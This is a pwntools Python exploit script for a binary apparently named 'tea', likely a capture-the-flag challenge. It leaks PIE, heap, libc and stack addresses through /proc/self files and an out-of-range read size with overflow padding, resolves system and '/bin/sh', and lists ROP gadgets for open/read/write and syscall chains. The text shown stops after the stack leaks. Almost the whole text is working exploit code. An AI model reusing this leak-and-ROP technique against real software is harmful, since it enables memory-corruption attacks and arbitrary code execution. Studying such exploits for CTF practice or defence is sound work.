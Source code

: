 ```python
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
#gdb.attach(r)


########   leaking   ########
parent_code_base, child_base, heap_base, libc_base = readfile('/proc/self/maps', 0, str(0x1000), 0, 'maps')

success('leaking.. memory')
log.info('PIE base = '+hex(parent_code_base))
log.info('heap_base = '+hex(heap_base))
log.info('child_base = '+hex(child_base))
log.info('libc_base = '+hex(libc_base))
system_addr = libc_base + libc.symbols['system']
log.info('system_addr = '+hex(system_addr))
binsh_addr = libc_base + next(libc.search('/bin/sh'))
log.info('/bin/sh_addr = '+hex(binsh_addr))


ppid = readfile('/proc/self/status', 0, str(0x1000), 0,'ppid')

success('leaking.. parent pid')
log.info('parent pid = '+str(ppid))


## tea gadget ##
leave_ret = parent_code_base + 0x0000000000001dbc # leave ; ret
exit_got = parent_code_base + 0x00202FE0 # exit@got <= unusable
malloc_got = parent_code_base + 0x000202FB0 # malloc@got <= unusable

## libc gadget ##
pop_rdi = libc_base + 0x0000000000021102 # pop rdi ; ret
pop_rsi = libc_base + 0x00000000000202e8 # pop rsi ; ret
pop_rdx = libc_base + 0x0000000000001b92 # pop rdx ; ret
pop_rax = libc_base + 0x0000000000033544 # pop rax ; ret
syscall = libc_base + 0x00000000000bc375 # syscall ; ret

open_addr = libc_base + libc.symbols['open']
lseek_addr = libc_base + libc.symbols['lseek']
close_addr = libc_base + libc.symbols['close']
read_addr = libc_base + libc.symbols['read']
write_addr = libc_base + libc.symbols['write']
exit_addr = libc_base + libc.symbols['exit']
libc_environ = libc_base + libc.symbols['environ']

parent_waitpid_ret = readfile('/proc/self/fd/0', 0, str(-0x80000000), 'a'*0x30+p64(3)+p64(libc_environ), 'stack_leak')
parent_waitpid_ret -= 240

mmaped_addr = readfile('/proc/self/fd/0', 0, str(-0x80000000), 'a'*0x30+p64(3)+p64(parent_waitpid_ret-0x10), 'stack_leak')
random_num = readfile('/proc/self/fd/0', 0, str(-0x80000000), 'a'*0x30+p64(3)+p64(parent_waitpid_ret-0x30), 'stack_leak')
child_read_ret = mmaped_addr + random_num - 104

parent_waitpid_ret -= 80

success('leak stack...')
log.info('parent_waitpid_ret = '+hex(parent_waitpid_ret))
log.info('mmaped_addr = '+hex(mmaped_addr))
log.info('random_num = '+hex(random_num))
log.info('child_read_ret = '+hex(child_read_ret))

```